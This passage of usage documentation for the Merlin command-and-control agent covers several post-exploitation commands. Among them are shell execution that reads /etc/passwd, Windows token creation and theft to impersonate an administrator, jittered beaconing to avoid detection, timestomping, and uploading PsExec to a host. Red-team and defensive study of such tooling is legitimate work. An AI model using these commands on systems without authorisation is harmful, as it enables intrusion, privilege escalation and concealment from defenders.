    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [-]Created job IxVXgyIkhS for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [+]Results for job IxVXgyIkhS

    Microsoft Windows [Version 10.0.16299.64]

Shell Functions
^^^^^^^^^^^^^^^

Some commands and capabilities are components of a shell and can *ONLY* be used with a shell.
For example, the ``dir`` command is a component of ``cmd.exe`` and is not its own program executable.
Therefore, ``dir`` can only be used within the ``cmd.exe`` shell.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» shell dir

The pipe and redirection characters ``|`` , ``>`` , and ``<`` , are also functions of a shell environment.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» shell "cat /etc/passwd | grep root"

Quoted Arguments
^^^^^^^^^^^^^^^^

When running a command on an agent from the server, the provided arguments are passed to executable that was called.
As long as there are no special characters (e.g., ``\`` , ``&`` , ``;`` , ``|`` , ``>`` , ``<`` etc.) the command will be processed fine.

For example, this command will work fine because it does not have any special characters:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» shell powershell.exe Get-Service -Name win* -Exclude WinRM

However, this command **WILL** fail because of the ``|`` symbol. The command will still execute, but will stop processing everything after the ``|`` symbol.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» shell powershell.exe Get-Service -Name win* -Exclude WinRM | fl

To circumvent this, enclose the entire argument in quotes. The outer most quotes will be removed when the arguments are
passed. The argument can be enclosed in double quotes or single quotes. All other quotes need to be escaped
The command be executed in both of these ways:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» shell powershell.exe "Get-Service -Name win* -Exclude WinRM | fl"

**OR**

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» shell powershell.exe "Get-Service -Name \"win*\" -Exclude "WinRM" | fl"

**OR**

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» shell powershell.exe 'Get-Service -Name \'win*\' -Exclude 'WinRM' | fl'

Escape Sequence
^^^^^^^^^^^^^^^

Following along with the Quoted Arguments section above, the ``\`` symbol will be interpreted as an escape sequence.
This is beneficial because it can be used to escape other characters like the pipe symbol, ``|`` .
However, it can work against you when working with Windows file paths and the arguments are not enclosed in quotes.

This command will fail because the ``\`` itself needs to escaped. Notice the error message shows File Not Found:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» shell dir C:\Windows\System32
    [-]Created job hBYxRfaRBG for agent 21a0fc5f-14ad-4c43-b41e-57eab1feb0e1
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [+]Results for job hBYxRfaRBG
    [+]  Volume in drive C has no label.
     Volume Serial Number is AC57-CFB9

     Directory of C:\

    File Not Found

To correctly issue the command either escape the ``\`` or enclose the commands in quotes:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» shell dir C:\\Windows\\System32

.. _skew:

skew
----

The ``skew`` command is used to introduce a jitter or skew to the agent sleep time to keep traffic from occurring at exact time intervals.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» skew 5
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]»
    [-]Created job lyYQdxckTY for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

.. _sleep:

sleep
-----

The ``sleep`` control type is used to change the amount of time that an agent will sleep before checking in again. The default is 30 seconds. The values provided to this command are written in a time format. For example, ``30s`` is 30 seconds and ``60m`` is 60 minutes. There is no response on the CLI after the instruction has been provided to the agent. You can verify the setting was changed using the ``agent info`` command.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» sleep 15s
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]»
    [-]Created job npMYqwASOD for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

status
------

The ``status`` command is used to simply print if the Merlin Agent is Active, Delayed, or Dead to the screen. This becomes useful when you come back to Merlin after a couple of hours or if you want to see if your shell has died.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» status
    Active
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]»

token
-----

The ``token`` command is used to perform various operations with Windows `access tokens <https://docs.microsoft.com/en-us/windows/win32/secauthz/access-tokens>`_.
The following commands are available:

* :ref:`token make`
* :ref:`token privs`
* :ref:`token rev2self`
* :ref:`token steal`
* :ref:`token whoami`

Merlin keeps track of when a Windows access token was created or stolen. If there is a created or stolen token, it will be used with the following commands:

* :ref:`cd`
* :ref:`download`
* :ref:`execute-assembly`
* :ref:`execute-pe`
* :ref:`execute-shellcode`
* :ref:`invoke-assembly`
* minidump
* :ref:`kill`
* :ref:`ls`
* :ref:`ps`
* :ref:`rm`
* :ref:`run`
* :ref:`shell`
* :ref:`touch`
* :ref:`upload`

The following commands will make the Windows `CreateProcessWithTokenW <https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithlogonw>`_ API call:

* :ref:`execute-assembly`
* :ref:`execute-pe`
* :ref:`execute-shellcode`
* :ref:`run`
* :ref:`shell`

.. _token make:

make
^^^^

The ``make`` command is use to create a new Windows access token with the Windows `LogonUserW <https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-logonuserw>`_ API call. The token is created with a type ``9 - NewCredentials`` `logon type <https://docs.microsoft.com/en-us/windows-server/identity/securing-privileged-access/reference-tools-logon-types>`_. This is the equivalent of using ``runas.exe /netonly``.

.. warning::
    Type 9 - NewCredentials tokens only work for **NETWORK** authenticated activities

.. note::
    Commands such as ``token whoami`` will show the username for the process and not the created token due to the logon type, but will reflect the new Logon ID

.. note::
    There is an unregistered ``make_token`` command alias that can be use from the agent root menu prompt

``token make <DOMAIN\\User> <password>``

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» token make ACME\\Administrator S3cretPassw0rd
    [-] Created job piloeJbKPp for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job piloeJbKPp for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] Successfully created a Windows access token for ACME\Administrator with a logon ID of 0xA703CF0

.. _token privs:

privs
^^^^^

The ``privs`` command enumerates the privilege associated with either the current process or a remote process.
If the current process has a created or stolen, and process ID argument is not provided, then the applied token's
privileges will be enumerated.

``token privs [<PID>]``

Current process:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» token privs
    [-] Created job rBIkAAWkIr for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job rBIkAAWkIr for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] Process ID 6892 access token integrity level: High, privileges (24):
            Privilege: SeIncreaseQuotaPrivilege, Attribute:
            Privilege: SeSecurityPrivilege, Attribute:
            Privilege: SeTakeOwnershipPrivilege, Attribute:
            Privilege: SeLoadDriverPrivilege, Attribute:
            Privilege: SeSystemProfilePrivilege, Attribute:
            Privilege: SeSystemtimePrivilege, Attribute:
            Privilege: SeProfileSingleProcessPrivilege, Attribute:
            Privilege: SeIncreaseBasePriorityPrivilege, Attribute:
            Privilege: SeCreatePagefilePrivilege, Attribute:
            Privilege: SeBackupPrivilege, Attribute:
            Privilege: SeRestorePrivilege, Attribute:
            Privilege: SeShutdownPrivilege, Attribute:
            Privilege: SeDebugPrivilege, Attribute: SE_PRIVILEGE_ENABLED
            Privilege: SeSystemEnvironmentPrivilege, Attribute:
            Privilege: SeChangeNotifyPrivilege, Attribute: SE_PRIVILEGE_ENABLED_BY_DEFAULT,SE_PRIVILEGE_ENABLED
            Privilege: SeRemoteShutdownPrivilege, Attribute:
            Privilege: SeUndockPrivilege, Attribute:
            Privilege: SeManageVolumePrivilege, Attribute:
            Privilege: SeImpersonatePrivilege, Attribute: SE_PRIVILEGE_ENABLED_BY_DEFAULT,SE_PRIVILEGE_ENABLED
            Privilege: SeCreateGlobalPrivilege, Attribute: SE_PRIVILEGE_ENABLED_BY_DEFAULT,SE_PRIVILEGE_ENABLED
            Privilege: SeIncreaseWorkingSetPrivilege, Attribute:
            Privilege: SeTimeZonePrivilege, Attribute:
            Privilege: SeCreateSymbolicLinkPrivilege, Attribute:
            Privilege: SeDelegateSessionUserImpersonatePrivilege, Attribute:

Remote process:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» token privs 8156
    [-] Created job BAKadQhkOc for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job BAKadQhkOc for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] Process ID 8156 access token integrity level: Low, privileges (2):
            Privilege: SeChangeNotifyPrivilege, Attribute: SE_PRIVILEGE_ENABLED_BY_DEFAULT,SE_PRIVILEGE_ENABLED
            Privilege: SeIncreaseWorkingSetPrivilege, Attribute:

.. _token rev2self:

rev2self
^^^^^^^^

The ``rev2self`` command leverages the `RevertToSelf <https://docs.microsoft.com/en-us/windows/win32/api/securitybaseapi/nf-securitybaseapi-reverttoself>`_
Windows API function and releases, or drops, any access token that have been created or stolen.

.. note::
    There is an unregistered ``rev2self`` command alias that can be use from the agent root menu prompt

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» token rev2self
    [-] Created job ZXKyKuIZru for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job ZXKyKuIZru for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] Successfully reverted to self and dropped the impersonation token


.. _token steal:

steal
^^^^^

The ``steal`` command obtains a handle to a remote process' access token, duplicates it through the
`DuplicateTokenEx <https://docs.microsoft.com/en-us/windows/win32/api/securitybaseapi/nf-securitybaseapi-duplicatetokenex>`_
Windows API, and subsequently uses it to perform future post-exploitation commands.

.. note::
    There is an unregistered ``steal_token`` command alias that can be use from the agent root menu prompt

``token steal <PID>``

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» token steal 1320
    [-] Created job xBDIToajju for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job xBDIToajju for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] Successfully stole token from PID 1320 for user ACME\Administrator with LogonID 0x39DF3C

.. _token whoami:

whoami
^^^^^^

The ``whoami`` command leverages the Windows `GetTokenInformaion <https://docs.microsoft.com/en-us/windows/win32/api/securitybaseapi/nf-securitybaseapi-gettokeninformation>`_ API call to return information
about both the process and thread Windows access token. This information includes:

* Username
* Token ID
* Logon ID
* Privilege Count
* Group Count
* Token Type
* Token Impersonation Level
* Integrity Level

``token whoami``

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» token whoami
    [-] Created job UZXXIILnYD for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job UZXXIILnYD for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] Process (Primary) Token:
            User: ACME\rastley,Token ID: 0x9CA475E,Logon ID: 0x26C3A6,Privilege Count: 24,Group Count: 14,Type: Primary,Impersonation Level: Anonymous,Integrity Level: High
    Thread (Primary) Token:
            User: NT AUTHORITY\SYSTEM,Token ID: 0x9CC08EB,Logon ID: 0x3E7,Privilege Count: 28,Group Count: 4,Type: Primary,Impersonation Level: Impersonation,Integrity Level: System

.. _touch:

touch
-----

The ``touch`` command is used to duplicate a timestamp from one file to another. This technique is also known as timestomp

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» shell ls -la /tmp/deleteMe.txt
    [-] Created job hEXYmbbGpW for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job hEXYmbbGpW for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] -rw-rw-r-- 1 rastley rastley 0 Aug  2 20:11 /tmp/deleteMe.txt

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» touch /etc/passwd /tmp/deleteMe.txt
    [-] Created job Canvuiuoxj for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job Canvuiuoxj for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] File: /tmp/deleteMe.txt
    Last modified and accessed time set to: 2020-09-16 07:05:18.245022776 -0400 EDT

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» shell ls -la /tmp/deleteMe.txt
    [-] Created job gTFZbcgeJW for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job gTFZbcgeJW for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] -rw-rw-r-- 1 rastley rastley 0 Sep 16  2020 /tmp/deleteMe.txt

.. _upload:

upload
------

The ``upload`` command is used to upload a file *from* the Merlin server *to* the host where the Merlin agent is running. The command is called by proving the location of the file on the Merlin server followed by the location to save the file on the host where the Merlin agent is running.

.. note::
    Because ``\`` is used to escape a character, file paths require two (e.g., ``C:\\Windows``)

.. note::
    Enclose file paths containing a space with quotation marks (e.g.,. ``"C:\\Windows\\Program Files\\"``)

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» upload C:\\SysinternalsSuite\\PsExec.exe C:\\Windows\\PsExec.exe
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [-]Created job vXJsZdZLPP for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

uptime
------

.. note::
    This command is only available to agent running on a ``Windows`` operating system!

The ``uptime`` command uses the Windows API GetTickCount64 method to determine how long the host has been running.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» uptime
    [-] Created job GJwrXttowA for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job GJwrXttowA for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+]
    System uptime: 853h31m14.921s

!
-

Any command that begins with a ``!`` (a.k.a bang or exclamation point) will be executed on host itself where the Merlin server is running. This is useful when you want simple information, such as your interface address, without having to open a new terminal.

.. code-block:: text

    Merlin» !ip a show ens32

    [i] Executing system command...

    [+] 2: ens32: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
        link/ether 00:0c:29:z3:ff:91 brd ff:ff:ff:ff:ff:ff
        inet 192.168.211.221/24 brd 192.168.211.255 scope global dynamic noprefixroute ens32
           valid_lft 1227sec preferred_lft 1227sec
        inet6 fe80::a71d:1f6a:a0d1:7985/64 scope link noprefixroute
           valid_lft forever preferred_lft forever

    Merlin»
